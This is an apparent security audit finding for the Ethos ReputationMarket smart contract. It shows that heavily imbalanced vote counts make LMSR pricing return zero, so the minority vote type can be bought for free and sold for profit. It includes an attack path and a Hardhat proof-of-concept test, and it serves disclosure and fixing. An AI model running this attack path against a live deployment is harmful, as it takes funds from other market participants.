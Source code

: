 Main Gauze Kangaroo

High

# ReputationMarket.sol :: buyVotes() If the difference between the votes is too large, the votes can be acquired for free.

### Summary

 `buyVotes()` allows purchasing votes for a specific `profileId`. However, there is an issue: when there is a significant disparity between the current TRUST and DISTRUST votes, the vote type with the smaller quantity can be acquired for free, as its price is calculated as zero.

### Root Cause

[buyVotes()](https://github.com/sherlock-audit/2024-12-ethos-update/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L448) relies on the `_calcCost()` method to determine the price of votes based on both the current votes and the new votes being added.
```solidity
function _calcCost(
    Market memory market,
    bool isPositive,
    bool isBuy,
    uint256 amount
  ) private pure returns (uint256 cost) {
    // cost ratio is a unitless ratio of N / 1e18
    uint256[] memory voteDelta = new uint256[](2);
    // convert boolean input into market state change
    if (isBuy) {
      if (isPositive) {
        voteDelta[0] = market.votes[TRUST] + amount;
        voteDelta[1] = market.votes[DISTRUST];
      } else {
        voteDelta[0] = market.votes[TRUST];
        voteDelta[1] = market.votes[DISTRUST] + amount;
      }
    } else {
      if (isPositive) {
        voteDelta[0] = market.votes[TRUST] - amount;
        voteDelta[1] = market.votes[DISTRUST];
      } else {
        voteDelta[0] = market.votes[TRUST];
        voteDelta[1] = market.votes[DISTRUST] - amount;
      }
    }

@>  int256 costRatio = LMSR.getCost(
      market.votes[TRUST],
      market.votes[DISTRUST],
      voteDelta[0],
      voteDelta[1],
      market.liquidityParameter
    );

    uint256 positiveCostRatio = costRatio > 0 ? uint256(costRatio) : uint256(costRatio * -1);
    // multiply cost ratio by base price to get cost; divide by 1e18 to apply ratio
    cost = positiveCostRatio.mulDiv(
      market.basePrice,
      1e18,
      isPositive ? Math.Rounding.Floor : Math.Rounding.Ceil 
    );
  }
```
The LMSR library is used to calculate the price of votes in this implementation. However, an issue arises when there is a significant imbalance between the TRUST and DISTRUST vote counts. Specifically, when the difference between `market.votes` (current votes) and `voteDelta` (new votes) is large, the calculated price for one of the vote types becomes zero. This occurs because all the cost is concentrated on the vote type with the higher count, leaving the other type essentially free. This behavior is demonstrated more clearly in the POC.

For instance, if TRUST votes equal 50,000 and DISTRUST votes are only 8,000 (a difference of approximately 6x), the price for DISTRUST votes becomes zero. This allows users to purchase DISTRUST votes at no cost. However, once a user acquires enough DISTRUST votes to reduce the gap between TRUST and DISTRUST votes to below 6x, subsequent DISTRUST votes will no longer be free as the price recalculates to a non-zero value. 

This is a plausible scenario, for example, if a user is highly trusted and everyone votes for TRUST.

The issue arises because the new votes added are not enough to impact the `newCost`, causing it to remain equal to the `oldCost` and resulting in a value of 0 (`newCost - oldCost`). You can observe this behavior by adding the following `console.log` in the `getCost()` of the `LSMR.sol` contract when running the POC.
```solidity
function getCost(
    uint256 currentYesVotes,
    uint256 currentNoVotes,
    uint256 outcomeYesVotes,
    uint256 outcomeNoVotes,
    uint256 liquidityParameter
  ) public pure returns (int256 costDiff) {
    uint256 oldCost = _cost(currentYesVotes, currentNoVotes, liquidityParameter);
    uint256 newCost = _cost(outcomeYesVotes, outcomeNoVotes, liquidityParameter);

    console.log("oldCost:", oldCost);
    console.log("newCost:", newCost);

    costDiff = int256(newCost) - int256(oldCost);
  }
```
This creates an exploit where a user can obtain votes at no cost. Additionally, the fees will be 0 because the price of the votes is 0.

### Internal Pre-conditions

The number of TRUST votes is roughly 6 times greater than the number of DISTRUST votes or vice versa.

### External Pre-conditions

None.

### Attack Path

A malicious user can exploit the system to generate free money using the following steps:

1. The gap between TRUST and DISTRUST votes is sufficiently large, causing the price of DISTRUST votes to drop to zero.  
2. The attacker takes advantage of this by purchasing DISTRUST votes at no cost using `buyVotes()`. 
3. The attacker waits until someone purchases a few DISTRUST votes, causing their price to become non-zero, and then sells them using `sellVotes()`, pocketing the profit. 
(Alternatively, the same attacker could buy a small amount to reset the price of DISTRUST votes to a non-zero value, positioning themselves to make a significant profit by selling the previously acquired votes.)

### Impact

Users are able to acquire votes without cost.

### PoC

To better understand the issue, copy the following proof of concept into `rep.price.test.ts` inside `describe('Very high price limits)`.
```js
it('votes can be obtained for free.', async () => {
      const billionEth = ethers.parseEther('1000000000');
      const maxVotes = 50000n;
      // buy many votes to increase the differnce between votes
      await userA.buyVotes({ votesToBuy: maxVotes, buyAmount: billionEth });

      const currentPricePositive = await reputationMarket.getVotePrice(DEFAULT.profileId, true);
      const currentPriceNegative = await reputationMarket.getVotePrice(DEFAULT.profileId, false);
    
      console.log("currentPricePositive:", currentPricePositive);
      console.log("currentPriceNegative:", currentPriceNegative);
      console.log("Result:", currentPricePositive + currentPriceNegative);

      //price for DISTRUST is 0
      expect(currentPriceNegative).to.equal(0);

      //user hasn't DISTRUST votes
      const { distrustVotes: beforeDistrustVotes } = await userA.getVotes();
      expect(beforeDistrustVotes).to.equal(0);

      //user buy 8000 DISTRUST votes for 0 eth (buyAmount is msg.value)
      await userA.buyVotes({ votesToBuy: 8000n, buyAmount: 0n, isPositive: false });

      //user obtains 8000 DISTRUST votes for free
      const { distrustVotes: afterDistrustVotes } = await userA.getVotes();
      expect(afterDistrustVotes).to.equal(8000);    
    });
```
```js
----------LOGS----------
currentPricePositive: 999999999999999999n
currentPriceNegative: 0n
Result: 999999999999999999n
```
As you can see, the entire price is allocated to the TRUST votes, leaving the price for DISTRUST votes at zero. This allows votes to be purchased for free, as long as the ratio between TRUST and DISTRUST votes is approximately 6:1. However, if a user attempts to buy 10,000 DISTRUST votes, the price will no longer be zero, since the ratio between the votes will be reduced to 5:1 (50,000 TRUST votes / 10,000 DISTRUST votes).

### Mitigation

To resolve the issue, one solution could be to set a minimum price for the votes. If the calculated price is zero, the minimum price should be applied when purchasing the votes.
